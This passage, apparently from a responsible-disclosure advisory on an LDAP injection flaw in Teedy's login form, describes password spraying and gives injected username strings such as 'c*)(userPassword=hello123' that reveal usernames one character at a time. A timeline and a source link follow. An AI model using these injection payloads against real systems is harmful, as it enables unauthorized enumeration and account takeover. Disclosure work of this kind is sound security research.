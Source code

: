 It is therefore possible to spray a list of common passwords with only one LDAP request by password. Once a valid password is found, it is possible to find the user(s) that have it by finding the username character by character and inputting the newly found password into the password field of the Teedy login form. The bruteforce requests would look like the following :
```
# If you have found 'hello123' as a valid password, use it in the password field of the login form
username: a*)(userPassword=hello123     # Error
username: b*)(userPassword=hello123     # Error
username: c*)(userPassword=hello123     # OK => username starts with 'c'
...

username: ca*)(userPassword=hello123    # OK => username starts with 'ca'
username: cb*)(userPassword=hello123    # Error
username: cc*)(userPassword=hello123    # Error
...

username: caa*)(userPassword=hello123   # Error
username: cab*)(userPassword=hello123   # OK => username starts with 'cab'
username: cac*)(userPassword=hello123   # Error
...

# And so on, until you find the whole username
```

## 📆 Timeline

- 23/10/2024 : Vulnerability discovered
- 24/10/2024 : Vendor contacted
- 12/12/2024 : CVE ID attributed
- 28/01/2025 : CVE publicly disclosed


## 📖 References

- [Teedy source code](https://github.com/sismics/docs)